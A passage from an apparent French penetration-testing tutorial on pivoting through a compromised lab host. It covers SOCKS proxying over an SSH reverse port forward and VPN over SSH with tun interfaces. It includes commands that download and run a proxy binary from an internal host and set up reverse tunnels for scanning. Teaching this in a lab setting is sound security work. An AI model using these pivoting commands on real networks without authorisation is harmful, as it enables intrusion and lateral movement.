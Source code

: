     $ wget http://10.0.0.10:8080/socks
    $ chmod u+x socks
    $ ./socks '-?'
    $ ./socks -p10080 -tstop -d

Et enfin on lance ssh en reverse remote port forwarding:

    $ ssh sshpivot@10.0.0.10 -R 127.0.0.1:14000:127.0.0.1:10080 -N

Un fois configurer, depuis hack:

    $ curl --head http://192.168.1.2 --proxy socks5://127.0.0.1:14000

### VPN over SSH
Cette fois le tunnel ne sera pas en TCP mais avec une connexion VPN, donc sur la couche 2. Il permettra de lancer des SYN scn avec Nmap par exemple.
C'est par contre assez complexe puisqu'il faut connaitre les creds d'un utilisateur, avoir les droits root, configurer le NAT sur le serveur, créer une interface tun sur le pivot et activer l'ip forwarding donc avoir les droits root, tout ça n'est pas discret et le résultat est lent.

Pour la mise en place il faut:
* utiliser un réseau non utilisé par les deux. Disons 10.1.1.0/30
* autoriser le tun device forwarding en ajoutant `PermitTunnel yes` dans `/etc/ssh/sshd_config`
* créer une interface tun sur la hack et sur le pivot srv1. Il faut donc être root sur srv1. 

Pour cette dernière étape, il y'a une mauvaise solution. Elle consiste à lancer openSSH sur hack, se connecter en root sur srv1 (donc `PermitRootLogin yes` dans `/etc/ssh/sshd_config`):

    $ sudo ssh root@10.0.0.10 -w any:any
avec:
* `-w any:any` laisse openssh choisir automatiquement les numéros (tunX) des interfaces tun respectivement côté client et côté serveur.

La deuxième solution est meilleure, elle consiste à faire le boulot à la main:

Sur le pivot srv1 (10.1.1.1), on créé tun, en définissant le peering et on active:

    $ sudo ip tuntap add dev tun0 mode tun
    $ sudo ip addr add 10.1.1.1/30 peer 10.1.1.2 dev tun0
    $ sudo ip link set tun0 up

Idem sur hack (10.1.1.2):

    $ sudo ip tuntap add dev tun0 mode tun
    $ sudo ip addr add 10.1.1.2/30 peer 10.1.1.1 dev tun0
    $ sudo ip link set tun0 up

Puis sur hack, l'utilisateur lance VPN over SSH en spécifiant les numéros des interfaces (`-w`):

    $ ssh user@10.0.0.2 -w 0:0

On `ping 10.1.1.1` pour tester le tunnel.

Une fois le tunnel établi, il faut activer l'ip forwarding, donc sur srv1:

    $ sudo sysctl net.ipv4.conf.default.forwarding=1
Utiliser `sysctl` permet d'éviter de se connecter en root.

Une fois l'ip forwarding activé, il faut configurer le routage sur srv1:

